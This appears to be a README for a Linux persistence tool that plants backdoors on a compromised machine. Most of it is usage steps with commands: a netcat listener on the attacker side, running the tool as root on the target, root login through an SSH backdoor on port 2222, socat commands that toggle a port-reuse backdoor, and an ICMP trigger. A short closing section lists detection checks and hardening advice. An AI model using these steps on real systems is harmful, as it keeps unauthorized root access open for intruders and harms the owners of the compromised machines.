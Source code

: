 ## Usage Instructions

### 1. Prepare Listener
Start netcat listener on attacker machine:
```bash
nc -lvp 4444
```

### 2. Run Tool
Run on target machine:
```bash
sudo ./linux-persistence
```

### 3. Use SSH Backdoor
```bash
ssh -p 2222 root@target_ip
```

### 4. Port Reuse
Activate port reuse:
```bash
echo 'backdoor' | socat - tcp:target_ip:80
```

Deactivate port reuse:
```bash
echo 'close' | socat - tcp:target_ip:80
```

### 5. ICMP Backdoor
Send ICMP packet containing "backdoor" to trigger

## Detection and Protection

### Detection Methods
1. Monitor network connections: `netstat -an`
2. Check process list: `ps aux`
3. Check scheduled tasks: `crontab -l`
4. Check system file integrity
5. Monitor kernel modules: `lsmod`
6. Check PAM configuration
7. Analyze network traffic

### Protection Recommendations
1. Regular system integrity checks
2. Monitor abnormal network connections
3. Restrict root privilege usage
4. Deploy HIDS/NIDS
5. Regular system patch updates
6. Restrict compilation tool access
7. Monitor kernel module loading
